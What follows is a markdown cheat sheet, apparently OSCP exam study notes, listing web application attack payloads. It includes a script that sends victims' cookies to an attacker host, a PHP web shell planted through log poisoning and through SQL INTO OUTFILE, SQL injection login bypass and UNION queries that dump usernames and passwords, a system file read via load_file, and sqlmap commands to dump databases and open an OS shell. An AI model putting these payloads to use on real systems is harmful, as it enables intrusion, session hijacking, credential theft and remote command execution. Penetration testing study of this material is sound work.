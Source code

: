 # OSCP - Web Applications
## General
Try reading the php source code of the web application:
```
http://<ip>/script.php/?-s
```
Do you see any LFI/RFI vulnerability posted by Nikto? Try
```
fimap -u <ip-address>
```
Check for Input Validation in forms:
```
1′ or 1=1 limit 1;#   AND   1′ or 1=1--)
```
Stealing Cookies
```
<iframe src="http://10.11.0.5/report" height = "0" width = "0"></iframe>

<script>
new Image().src="http://10.11.0.5/bogus.php?output="+document.cookie;
</script>
```
## File Inclusion Vulnerabilities

php.ini values:
```
register_globals
allow_url
allow_url_fopen
allow_url_include
```
terminate our request with a null byte () (possible in php below 5.3)

For LFI/RFI attacks, this might be useful:
```
https://github.com/lightos/Panoptic/
```

### Contaminating Log Files
contaminate log file to cause them to contain PHP code to be later used in LFI attack
```
nv -nv 192.168.30.35 80
<?php echo shell_exec($_GET['cmd']);?>
```
thus, cmd= is introduced into the php execution and now by including the logfile you can execute any command


## SQL Injection
Classic Authentication Bypass
```
select * from users where name ='any' or 1=1;#'

select * from users where name ='any' or 1=1 limit 1;#'
```
### Error Based Enum
order by
```
union all operator → allows us to add our own select queries to the original but the new select needs to have the same number of columns as the original columns statement
```

```
union all select 1,2,3,4,5,6
union all select 1,2,3,4,@@version,6
union all select 1,2,3,4,user(),6

union all select 1,2,3,4,table_name,6 FROM information_schema.tables

union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'

union select 1,2,name,4,password,6 FROM users
```

OR

```
http://10.11.1.35/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users
```

### Blind SQL Injection
```
and 1=1;#
and 1=2;#
```
if they have different results then it is an indication of possible injection spot
use time as a test parameter for query
```
sleep(5)

select IF(MID(@@version,1,1) = '5', SLEEP(5), 0);

union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6

http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

### SQLMap
```
sqlmap -u http://192.168.30.35 --crawl=1

sqlmap -u http://192.168.30.35/comment.php?id=738 --dbms=mysql --dump --threads=5

sqlmap -u http://192.168.30.35/comment.php?id=738 --dbms=mysql --os-shell
```

### Modify HTTP Headers

Install addon “Modify Headers”
In some cases, to look like you have a different IP, you can change the value of the X-Forwarded-For
https://docs.alertlogic.com/userGuides/web-security-manager-premier-preserve-IP-address.htm
